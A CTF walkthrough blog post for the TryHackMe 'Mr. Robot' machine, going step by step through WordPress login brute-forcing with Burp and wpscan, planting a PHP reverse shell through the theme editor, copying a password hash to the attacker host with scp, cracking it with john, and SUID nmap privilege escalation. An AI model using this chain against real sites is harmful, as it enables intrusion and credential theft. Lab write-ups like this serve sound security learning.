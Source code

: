 ```yaml
---
layout: post
title: "TryHackMe: Mr. Robot"
image: /assets/thumbnails/mr-robot-thumbnail.png
---
```


> This is the walkthrough of the machine Mr. Robot on TryHackMe. It is an easy challenge that involves some clever enumeration, vulnerability and exploit research and some clever Linux privilege escalation technique. Definitely a fun box for beginners.

---

## Enumeration

Starting the VM, we are greeted by a login prompt, asking for credentials. We do not have any yet. A quick nmap scan reveals the following:

![nmap](/assets/img/projects-img/mr-robot-nmap.PNG){: class="center-image"}

Navigate to the web app hosted on port 80. There is a whole presentation there. However, clicking around doesn't seem to be of any use to us. Since the main page does not give too much information, let's check for interesting subdirectories with gobuster.

```bash
    gobuster dir -u http://69.169.69.111/ --wordlist /usr/share/dirb/wordlists/common.txt > gobuster1
```

Interesting results here. Right away, we see that there is a robots.txt file. This file may hold secrets that the target wishes to keep away from crawlers. Its contents reveal the following:

![robotstxt](/assets/img/projects-img/mr-robot-robotstxt.PNG){: class="center-image"}

Navigating to <IP>/key-1-of-3.txt gives us the first key.

Furthermore, we see that the server contains a file called fsocity.dic. Navigate to `http://<target IP>/fsocity.dic` to download it. We will come back to it in a bit.

The output from Gobuster also contains some typical wordpress directories such as `wp-admin` and `wp-config`. It seems that the hosted application is a WordPress blog. Navigating to `<IP>/image` reveals the blog and navigating to `<IP>/wp-login.php` reveals the login page.

## Attacking WordPress

The key to the next step is using the list `fsocity.dic` to somehow log into the blog. However, we do not know whether the list contains usernames, passwords, or both. Luckily, WordPress will show a custom error message if we try to log in as a user with the wrong password, indicating that the user exists:

![wordpresslogin](/assets/img/projects-img/mr-robot-wordpress-login.png){: class="center-image"}

Let's use `burpsuite` to brute force the username. Start burpsuite and capture the login request with Proxy. Then send it over to Intruder. Set only the password ("pwd") parameter's value as position.

![burpsuitepayload](/assets/img/projects-img/mr-robot-burpsuite-payload.png){: class="center-image"}

Then navigate to the Intruder's "Payloads" tab and load fsocity.dic as the payload. Start the attack. We can filter by response length since we know that the response will be different than the rest if we get a hit on the correct username. You should get this:

![burpsuiteresults](/assets/img/projects-img/mr-robot-burpsuite-results.png){: class="center-image"}

Now we have to crack the password. This part took quite some time since I am using a VM so my cracking speed is very low. I knew the password had to be either in `fsocity.dic` or in the `rockyou.txt` leaked database password list. So I gave both an hour or two but without any luck. Searching around in the `fsocity.dic` list revealed a lot of duplicate words (search for "user", for example). Therefore, I decided to trim the `foscity.dic` by sorting and removing duplicate using the command below:

```bash
    sort fsocity.dic | uniq > fsocity_clean.dic
```

Turns out this was the key to cracking the password. I got a hit on the 5630th line. As for the exact tool - I used `wpscan`. However, it is also possible with `hydra` and even with `burpsuite` but the latter will take quite some time.

```bash
    wpscan --url http://69.169.69.111/wp-login -U "Elliot" -P fsocity_clean.dic
```

You should get the following output:

![burpsuiteresults](/assets/img/projects-img/mr-robot-wpscan-hit.png){: class="center-image"}

Now that we can log in, its time to look for an exploit that will help us establish a system-level communication channel/shell with the target. To get a better understanding of the tech stack, I personally like using `whatweb` (certainly use -v for verbose output):

```bash
    whatweb http://69.169.69.111/Image/ -v
```

The output shows WordPress version 4.3.1 and PHP version 5.5.29. 

## Exploit

Once we have access to the administrator console, we need to find a vulnerability in order to land a shell. From previous experience I knew that editing the themes could hide a possible code injection vulnerability so I went with that. However, there are most likely other ways to land the shell. Check [this awesome article](https://www.hackingarticles.in/wordpress-reverse-shell/){:target="_blank"} and experiment with different techniques. Usually, WordPress and especially older versions offer a pretty large attack surface.

I navigated to `http://<target IP>/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` and replaced the original code with the reverse shell code. I went to [revshells.com](https://www.revshells.com/){:target="_blank"} and used the PHP reverse shell by PentestMonkey. 

Now that the malicious code is injected onto the target server, we just need to get it to run. In order to that we can navigate to `http://<target IP>/wordpress/wp-content/themes/twentyfifteen/404.php` via the browser. I also got it to run by just going to `http://<target IP>/themes` because it again loads the themes code, thus executing the malicious code and providing us with a reverse shell.

Obviously, you need to be listening on the attacker machine in order to catch the shell using the command below.

```bash
    nc -lnvp 1234
```

Once you catch the reverse shell, you can use the command below to upgrade to bash.  

```bash
    python3 -c 'import pty;pty.spawn("/bin/bash");'
```

## Privilege escalation part 1

The reverse shell lands us in the daemon account. This means that the WordPress blog/service is run in the context of this account on the victim server. Let's navigate to the \home directory. We see there exists a user robot. In robot's home directory we find key-2-of-3.txt (which we do not have permission to read) and a MD5 hash of the user's password (called password.raw-md5). MD5 is an outdated encryption algorithm and is insecure. We need to transfer the file back to our attacker machine and crack it using a tool like `hashcat` or `john`. 

I couldn't transfer the file using python3's `http.server` module so I decided to use an ssh server. The order of the commands is given below. 

On the attacker machine:

```bash
    # enable ssh
    sudo systemctl enable ssh
    # start the ssh server
    sudo systemctl start ssh
    # check whether server is running
    netstat -antp
```

Then on the victim machine:

```bash
    # copy file over ssh
    scp password.raw-md5 kali@<attacker IP>:~/
```

Once you have the file on your attacker host, you can use `john` and rockyou.txt to crack it. Extract only the hash from password.raw-md5 into another file and crack it.

```bash
    john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt crackit
```

Then we can use it to log in as robot and also get the second key.

![key2](/assets/img/projects-img/mr-robot-key-2.webp){: class="center-image"}

## Privilege escalation part 2

Now that we have access to the user robot we need to escalate our privileges again and get root access. This was all about a careful enumeration of the filesystem and permissions. Right away, we can check that robot is not a member of the sudoers group, hence sudo will fail. The next step is to check for SUID binaries. 

> A SUID binary is a program that runs with the permissions of its owner instead of the permissions of the user who executes it.

That can be done with the following command:

```bash
    find / -perm -4000 2>/dev/null 
```

Does anything stand out? Carefully enumerate the list and investigate every curious service for possible vulnerabilities.
The service in question is **nmap**. Lore-wise it makes sense since this is supposed to be Mr. Robot's machine and he certainly needs nmap in his day-to-day. Nmap, however, can be used to run commands and execute scripts. I did not explore the script option since I found that, luckliy, nmap has an interactive mode which we can use.

![nmapinteractive](/assets/img/projects-img/mr-robot-nmap-interactive.webp){: class="center-image"}

Navigate to the key.

![key3](/assets/img/projects-img/mr-robot-key-3.webp ){: class="center-image"}

Some awesome resources that can help you during this stage of a CTF - [GTFOBins](https://gtfobins.github.io/){:target="_blank"} [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation){:target="_blank"}.


# Have fun!

